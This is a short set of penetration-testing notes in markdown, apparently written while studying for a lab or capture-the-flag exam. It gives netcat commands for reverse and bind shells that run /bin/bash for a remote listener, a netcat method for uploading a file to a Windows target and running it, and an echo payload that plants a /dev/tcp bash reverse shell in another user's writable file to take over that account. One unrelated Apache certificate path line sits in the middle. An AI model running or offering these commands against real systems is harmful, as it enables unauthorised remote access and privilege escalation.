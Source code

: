 # Reverse shell
Connection from the target to the attacker
//opening port with netcat on my system
nc -nvlp 4444
//or -n skip dns name resolution & verbose
nc -n -v 10.11.0.22 110

//establishing connection on the victims system
nc 192.168.0.6 4444 -e /bin/bash

//just to open connection, and chat
nc -nv 10.11.0.22 4444


# Bind shell
Connection from the attacker to the target  
//opening port with netcat on the target 
nc -nvlp 4444

//establishing connection on my pc
nc 192.168.0.6 4444 -e /bin/bash

# Buffer overflow
Local bo is not intereseting check for remote bo

# transfer files to windows
//on target system and redirect any file to incoming.exe
nc -nlvp 4444 > incoming.exe

//locate file
locate wget.exe

// transfer file => we need to wait for file being uploaded
nc -nv 10.11.0.22 4444 < /user/share/.../wget.exe

//on target but first abort nc
incoming.exe -v


/etc/apache2/ssl/apache.crtSSLCertificateKeyFile /etc/apache2/ssl/apache.key

# reverse shell in programming languages
* example: you have access to user "kid" and on the users "yolo" home directory there is a writebale file (input not secured use: `echo “ ;/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.96/1234 0>&1’ #” >> hackers`
* You can add a script there with echo "the script" >> nameoffile to overwrite this file. The script points to your kali ip.
* set up a listener in kali
* Once the file got executed you will have reverse shell to "yolo"
Reverse shells: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
